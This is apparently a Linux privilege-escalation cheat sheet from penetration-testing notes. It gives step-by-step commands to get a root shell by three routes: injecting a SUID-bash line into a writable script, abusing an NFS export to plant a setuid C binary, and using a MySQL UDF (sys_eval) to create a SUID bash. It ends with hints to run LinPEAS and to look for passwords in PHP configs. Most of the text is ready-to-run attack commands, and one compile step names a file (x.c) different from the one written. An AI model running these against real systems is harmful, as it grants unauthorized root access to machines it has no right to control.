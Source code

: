 _Exploitable if script is writeable by the current user_

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /path/to/writable/writablescript
```

```
/tmp/bash -p
```

## NFS Root Squashing

_Victim Machine_

```
cat /etc/exports
```

_Kali Machine_

```
showmount -e ip
```

```
mount -o rw,vers=2 ip:/tmp /tmp/1
```

{% code overflow="wrap" %}
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/thescriptkid.c
```
{% endcode %}

```
gcc /tmp/1/x.c -o /tmp/1/thescriptkid
```

```
chmod +s /tmp/1/thescriptkid
```

_Victim Machine_

```
/tmp/thescriptkid
```

## Mysql

_prequisites - a valid database_

```
show databases;
```

```
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
```

```
select sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

```
/var/tmp/bash -p
```

## Run LinPEAS

_try passwords found in config PHP files_
